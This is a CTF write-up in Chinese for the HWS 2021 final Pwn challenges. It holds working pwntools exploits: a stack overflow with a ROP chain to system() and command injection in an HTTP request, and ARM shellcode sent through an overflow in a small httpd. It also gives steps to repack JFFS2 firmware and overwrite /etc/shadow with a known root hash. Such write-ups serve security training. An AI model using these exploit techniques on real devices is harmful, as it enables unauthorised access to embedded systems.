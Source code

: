 ```yaml
---
title: HWS 2021 结营赛 Pwn
date: 2021-03-06 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 更新中...结营赛还有非常多值得探索的东西

- 结营赛题目附件：[HWS2021结营赛题目.zip](https://xuanxuanblingbling.github.io/assets/attachment/HWS2021结营赛题目.zip)

- [Yibai Zhang: HWS2021决赛WriteUp](https://www.summershrimp.com/2021/03/HWS2021%E5%86%B3%E8%B5%9BWriteUp/)
- [x1ng: HWS冬令营结营赛](https://x1ng.top/2021/03/01/HWS%E5%86%AC%E4%BB%A4%E8%90%A5%E7%BB%93%E8%90%A5%E8%B5%9B/)
- [x1ng: 侧信道与故障注入攻击](https://x1ng.top/2021/02/26/%E4%BE%A7%E4%BF%A1%E9%81%93%E4%B8%8E%E6%95%85%E9%9A%9C%E6%B3%A8%E5%85%A5%E6%94%BB%E5%87%BB/)

## Pwn1: easyserver

> 串口看输出

```python
from pwn import *
#context.log_level = 'debug'

p = remote('20.21.2.27', 59816)

pop_r0_pc = 0x0006099c
cmd_base = 0x008ACE4
system = 0x00019158

cmd = 'cat /tmp/207775d1ee9b9efa245fd9fb6fc03b68/flag'
payload  = 'POST ./ HTTP1.1;'+cmd+'; \r\n'
payload += 'a'*1100+p32(pop_r0_pc)+ p32(cmd_base+13) + p32(system) +cyclic(100)+'\r\n'+'\r\n'+'\r\n'
print payload

p.send(payload)
p.interactive()
```

![image](https://xuanxuanblingbling.github.io/assets/pic/hws/pwn1.png)


## Pwn3: babyhttpd

> 串口看输出

```python
from pwn import *
#context.log_level = 'debug'
context(arch='arm')

# shellcode  = asm('''
# add   r4, pc, #56
# str   r4, [sp, #8]
# sub   r2, r2, r2 
# strb  r2, [r4, #4] 

# sub   r2, r2, r2       
# add   r3, pc, #28      
# str   r3, [sp, #4]     
# str   r2, [sp, #12]     
# mov   r0, r3, lsl r2   
# strb  r2, [r3, #7]     
# add   r3, pc, #4       
# add   r1, sp, #4       
# strb  r2, [r3, #1]     
# swi   0x90ff0b         
# ''')+'/bin/ls//tmp'


shellcode  = asm('''
add   r4, pc, #60
str   r4, [sp, #8]
sub   r2, r2, r2 
strb  r2, [r4, #25] 

sub   r2, r2, r2       
add   r3, pc, #28      
str   r3, [sp, #4]     
str   r2, [sp, #12]     
mov   r0, r3, lsl r2   
strb  r2, [r3, #8]     
add   r3, pc, #4       
add   r1, sp, #4       
strb  r2, [r3, #1]     
swi   0x90ff0b         
''')+'/bin/cat/////tmp/ffffffllllaaaaaagggg'

p = remote('20.21.2.27', 5000)

payload  = 'POST /'+"\x11"*6+shellcode+'\r\n\r\n'
payload += 'name='+'a'*655+p32(0x22504)+'&bbb=./;'

p.send(payload)
p.interactive()
```

![image](https://xuanxuanblingbling.github.io/assets/pic/hws/pwn3.png)

## 板子拿shell

### jffs2解包

```sh
# Install jefferson to extract JFFS2 file systems
$ sudo pip install cstruct
$ git clone https://github.com/sviehb/jefferson
$ (cd jefferson && sudo python setup.py install)
```

```sh
binwalk -Me test.img
```

### jffs2打包

```sh
sudo apt install mtd-utils
mkfs.jffs2 -r rootfs -o rootfs.img 
```

### 修改start.sh

```sh
#!/bin/sh
cp -r /etc /tmp/
echo 'root:$1$NqxdI63c$nzvMkcJxzktGW6Tsgw3jb0:1::::::' > /tmp/etc/shadow
mount -o loop /tmp/etc/ /etc
```